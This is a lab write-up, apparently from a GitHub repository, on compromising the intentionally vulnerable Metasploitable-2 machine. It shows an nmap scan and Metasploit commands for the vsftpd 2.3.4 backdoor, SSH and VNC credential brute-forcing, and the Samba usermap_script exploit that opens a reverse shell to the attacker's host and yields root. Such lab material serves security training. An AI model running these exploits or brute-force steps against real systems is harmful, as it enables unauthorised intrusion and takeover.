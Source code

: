 # 🔍 Metasploitable-2 Write UP🔓🛡

### Getting the IP address of the target machine

I used arp-sca -l to get the local ip of the target machine 

> Target ip -> 192.168.100.8

### Scan the target machine using nmap

```bash

┌──(kali㉿kali)-[~/Desktop/Machines_WriteUps/m3taspl1abl3]
└─$ nmap -sV 192.168.100.8 -o nmap_full_scan
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-18 14:50 EDT
Nmap scan report for 192.168.100.8
Host is up (0.0026s latency).
Not shown: 977 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login       OpenBSD or Solaris rlogind
514/tcp  open  tcpwrapped
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  bindshell   Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         UnrealIRCd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 08:00:27:CF:4C:27 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.05 seconds



```

So here I got the many ports open to penetrate. Lets exploit it one by one

### Exploiting FTP
Here the version of ftp on target machine is vsftpd 2.3.4, lets search for any exploits that are available in metasploit console

![ftp exploit search](screenshots/exp1.png)

Here I got the the exploit using the search command in msfconsole, lets use it to exploit the target

```bash

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > 


```

here we are ready with payload to exploit the target, now we have to set some parameters to run the exploit

use the `show option` command to get the options 

![payload options](screenshots/opt1.png)

Here it says we have to set rhost that is target ip, we can use

```bash
set rhost 192.168.100.8
```

and then run/exploit command to execute the payload on target machine

![ftp exploited](screenshots/ftp-done.png)

Here our exploit works and we got the reverse tcp shell of the target machine.

### Exploiting SSH using metasploit

As we know ssh port(22) is open lets see we can exploit it using meatasploit
![ssh exploit](screenshots/ssh_1.png)

Here I got this exploits, and I will be using `auxiliary/scanner/ssh/ssh_login `
It has many options lets set the required one first

```bash

set RHOSTS 192.168.100.8
set USER_FILE username.txt # to set a text file  for usernames where each line has expected username
set PASS_FILE passwd.txt # to set a password text file to check using each user specified above
set VERBOSE true  # to print all backgound processing 
```

Lets Exploit....

![ssh shell exploited](screenshots/ssh_2.png)

### Exploiting VNC Server

VNC Server is running on port 5900
VNC is remote desktop service through which we can get the remote access of the system

Let's use `auxiliary/scanner/vnc/vnc_login` module and try to exploit it

here I need to set only one option for this module:

```bash
set rhost 192.168.100.8 # target ip addr
```

```bash

msf6 auxiliary(scanner/vnc/vnc_login) > exploit
[*] 192.168.100.8:5900    - 192.168.100.8:5900 - Starting VNC login sweep
[!] 192.168.100.8:5900    - No active DB -- Credential data will not be saved!
[+] 192.168.100.8:5900    - 192.168.100.8:5900 - Login Successful: :password
[*] 192.168.100.8:5900    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/vnc/vnc_login) > 

```

Here we got the password value that is `password`, lets try logging in VNC 

![VNC Connected](screenshots/vnc.png)

Here the credentials worked and we got the VNC access

### Exploiting Samba smbd

The service samba smb service is runnning on port 139, lets start

So here I am not getting the version of samba in nmap scan, so I will first search for scanner module to get the version of the samba version and accordingly search for its exploits.

Here I am using `scanner/smb/smb_version`  

```bash

msf6 auxiliary(scanner/smb/smb_version) > set rhosts 192.168.100.8
rhosts => 192.168.100.8
msf6 auxiliary(scanner/smb/smb_version) > exploit
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/recog-3.1.17/lib/recog/fingerprint/regexp_factory.rb:34: warning: nested repeat operator '+' and '?' was replaced with '*' in regular expression
[*] 192.168.100.8:445     -   Host could not be identified: Unix (Samba 3.0.20-Debian)
[*] 192.168.100.8         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

So the version of smb service running on target machine is `Samba 3.0.20-Debian`

Let's for exploits using this

Here I got this exploit, `exploit/multi/samba/usermap_script`

This module exploits a command execution vulnerability in Samba versions 3.0.20 through 3.0.25rc3 when using the non-default "username map script" configuration option. By specifying a username containing shell meta characters, attackers can execute arbitrary commands.

```bash

msf6 exploit(multi/samba/usermap_script) > set rhosts 192.168.100.8
rhosts => 192.168.100.8
msf6 exploit(multi/samba/usermap_script) > exploit
[*] Started reverse TCP handler on 192.168.100.5:4444 
[*] Command shell session 1 opened (192.168.100.5:4444 -> 192.168.100.8:60794) at 2025-09-18 15:50:08 -0400

```

Got the root shell

![root shell using smb service](./screenshots/smb_root.png)
